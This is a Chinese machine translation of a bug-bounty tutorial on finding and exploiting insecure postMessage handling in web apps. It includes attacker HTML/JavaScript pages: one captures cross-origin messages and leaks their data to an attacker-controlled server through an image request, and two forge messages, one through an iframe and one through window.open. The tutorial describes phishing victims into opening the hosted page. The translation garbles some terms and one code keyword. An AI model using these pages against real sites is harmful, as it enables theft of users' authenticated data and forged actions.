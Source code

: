 # 如何发现和利用邮件后漏洞？

> 原文：<https://infosecwriteups.com/how-to-spot-and-exploit-postmessage-vulnerablities-329079d307cc?source=collection_archive---------0----------------------->

嘿，fam，我希望每个人都做得很好，能够有效地利用这段时间进行自我发展和自我反思。老实说，这种冠状病毒疫情已经变得有点累了，并得到了我们最好的。

我试图帮助你理解一个在检查 web 应用程序或移动应用程序时经常被忽略的错误，让它成为所有测试人员的金矿，无论是经验丰富的还是新的。

先决条件:该网站应该依靠 cookies

**情况 1，消息发送到所有来源**

首先简单介绍一下 postMessage，正如在 [mozilla 文档](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)中描述的，语法相当简单。

```
postMessage(*message*, *targetOrigin*, [*transfer*]);
```

然而，当目标原点设置为* aka everywhere 或比方说 xyz.com，但不正确的实现允许通过创建像 xyz.com puter.com T4 这样的域来绕过它时，问题就出现了。正如你们大多数人现在已经猜到的，数据并没有被限制在同一个源(原始域)中，因此在理论上是可以被泄露的。

让我们仔细看看这是如何实现的

```
<script>
window.addEventListener("message", function(event){
document.write("<img src='[http://192.168.1.5:8000/?leak=](http://192.168.1.5:8000/?leak=)"+event.data.value+"'></img>");
}, false);
window.open("vulnerable page leaking data");
</script>
```

我知道这看起来很困惑，但请听我说:

既然信息正被发送到所有的源头，我们应该能抓住它。所以我们创建了一个恶意的 html 页面，它有一个事件监听器，基本上是一种捕捉器，捕捉 post 消息发送的任何数据。

第三行的 document.write 只不过是使用图像标签泄漏重要数据的典型例子。我们所做的是在我们的计算机上创建本地服务器(http Simpleserver python works)，并通过在 src *our_pc_ip(请注意，您需要一个公共 ip):port_number 上写一个 img，将我们捕获的数据发送到我们的 pc？泄露=机密 _ 数据。*

第四行基本上是打开易受攻击的页面，以便它将 postMessage 数据发送到所有来源，并且我们的脚本在数据传输后立即捕获它。

因此，基本上这个页面是托管的，受害者被网络钓鱼者打开它，只要他们打开它，因为页面依赖于 cookies，网站就会打开并进行身份验证，从而向用户泄露机密数据。

**情况 2，站点正在监听来自任何来源的消息**

但是，如果事件侦听器正在侦听所有消息，而不考虑消息的来源，该怎么办呢？在这种情况下，就有可能伪造一条消息并将其发送给用户(范围可以从自己的 xss 到任何认证动作，如共享文档)。

```
<html>
<head>
<script>
function hack(){
setTimeout(function(){document.getElementById("i").contentWindow.postMessage('**The_message**','*');},2000);
};
</script>
</head>
<body>
  <iframe id="i" src="[**v**](http://ptl-e13e72a3-bcbf8e2c.libcurl.so/)**ulnerable page**"></iframe>
<script>hack();</script>
</body>
</html>
```

在这里，我们所做的是创建一个恶意的 html 页面，但这次我们在 iframe 中打开该页面，并使用基本页面发送一条带有 origin *的消息(基本上发送给所有目标，以便更容易利用)。易受攻击页面中的 eventListener 获取消息，由于来源未被正确过滤，它执行命令并允许操作。

在这里，2000 表示 2 秒，我们只是等待，以便在脚本执行之前页面被正确加载。

**怎么找？**

显然，我们不可能搜索每个页面的所有 js 而不浪费大量的精力去寻找 postMessage 函数来检查漏洞。一个简单的方法是使用 chromedev 工具，你只需检查一个页面并进入事件监听器。

![](img/11d9659de463fd8e4064f5497864c204.png)

我们可以清楚地看到并定位事件侦听器下的消息，从而检查漏洞。

**如果使用了 X-FRAME 而我们不能使用 IFRAME 怎么办？**

幸运的是有一个旁路，我们可以完全使用 javascript 来加载页面。

```
<html>
<body>
<script>
car w=window.open("url here","hack")
setTimeout(function(){w.postMessage('text here','*');},2000);
</script>
</body>
</html>
```

我希望你喜欢读这篇文章！